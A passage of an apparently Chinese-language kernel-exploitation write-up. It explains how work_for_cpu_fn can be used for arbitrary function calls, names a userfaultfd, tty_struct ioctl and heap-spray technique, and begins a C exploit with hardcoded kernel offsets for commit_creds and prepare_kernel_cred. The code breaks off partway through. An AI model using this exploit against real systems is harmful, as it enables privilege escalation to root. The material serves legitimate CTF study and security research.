此函数直接将 rdi+0x20 的地方当成函数执行，将 rdi+0x28 当成第一个参数，将  rdi+0x30 当成返回值，因此可以完成一套很丝滑的函数调用

userfaultfd + tty_struct->ioctl + 堆喷 + work_for_cpu_fn 

```c
#include <stdio.h>
#include <pthread.h>
#include <unistd.h>
#include <stdlib.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <string.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <errno.h>
#include <signal.h>
#include <sys/syscall.h>
#include <stdint.h>
#include <sys/prctl.h>
#include <linux/userfaultfd.h>
#include <poll.h>
#include <assert.h>
#include "kernelpwn.h"

#define TTY_STRUCT_SIZE 0x2e0
int fd = 0;
char *mem;

size_t commit_creds = 0xa9b40;
size_t prepare_kernel_cred = 0xa9ef0;
size_t work_for_cpu_fn = 0x9eb90;



struct args{
    size_t index;
    size_t size;
    char *data;
} typedef args;


void set_offset(){
    commit_creds += vmlinux_base;
    prepare_kernel_cred += vmlinux_base;
    work_for_cpu_fn += vmlinux_base;

    info("work_for_cpu_fn" , work_for_cpu_fn);
}

void add(size_t index , size_t size , char *data){
    args arg;
    arg.index = index;
    arg.size = size;
    arg.data = data;

    ioctl(fd , 0x100 , &arg );
}

void * block_add(void *index){
    args arg;
    arg.index = *(size_t*)index;
    arg.size = 0x50;
    arg.data =(char *) mem;
```